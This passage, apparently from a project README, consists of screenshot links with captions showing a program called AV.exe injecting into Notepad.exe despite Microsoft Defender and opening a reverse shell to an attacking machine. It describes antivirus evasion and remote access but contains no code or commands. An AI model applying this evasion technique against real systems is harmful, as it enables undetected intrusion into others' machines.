
Next, AV.exe injects into Notepad.exe with Microsoft Defender enabled.

A successful reverse shell is established to the attacking machine and a sample command is executed.

The Notepad.exe process has PID 20288, which matches the PID in the previous picture.
